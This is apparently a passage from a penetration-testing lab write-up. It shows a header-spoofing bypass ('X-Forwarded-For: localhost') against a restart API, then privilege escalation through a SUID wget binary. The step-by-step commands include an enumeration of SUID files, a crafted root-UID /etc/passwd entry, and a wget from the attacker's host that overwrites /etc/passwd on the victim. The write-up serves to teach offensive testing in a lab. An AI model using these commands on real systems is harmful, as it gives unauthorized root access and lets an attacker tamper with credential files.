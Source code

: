 Restarting the application didn't seem to connect back again, lets curl the restart endpoint and see whats happening.

```shell
curl http://192.168.214.134:13337/restart -H "X-Forwarded-For: localhost"

<html>
    <head>
        <title>Remote Service Software Management API</title>
        <script>
            function restart(){
                if(confirm("Do you really want to restart the app?")){
                    var x = new XMLHttpRequest();
                    x.open("POST", document.URL.toString());
                    x.send('{"confirm":"true"}');
                    window.location.assign(window.location.origin.toString());
                }
            }
        </script>
    </head>
    <body>
    <script>restart()</script>
    </body>
</html>
```

It expects a POST request so let's try that.

```shell
curl -v -X POST -H "X-Forwarded-For: localhost" http://192.168.214.134/restart
```

![[Pasted image 20230918224529.png]]

## Priv Esc

Lets see what tools we have available and try to upgrade our shell. I like to check the location and permissions of some common ones.

```shell
ls -al $(which python)
ls -al $(which wget)
ls -al $(which nc)
ls -al $(which curl)
```

Interestingly, wget has its SUID bit set. Lets confirm this again with the usual SUID search command.

```shell
find / -perm -u=s -type f 2>/dev/null
```

This will allow us to overwrite files, lets overwrite **/etc/passwd**.

Lets copy the file to our local machine and add a user to it with root privileges, then use wget to retrieve the file and overwrite.

```shell
openssl passwd -1 -salt test test
echo 'test:$1$test$pi/xDtU5WFVRqYS6BMU8X/:0:0:root:/root:/bin/bash' >> passwd

# On Victim
wget http://192.168.45.215:8000/passwd -O /etc/passwd
```

![[Pasted image 20230918230543.png]]

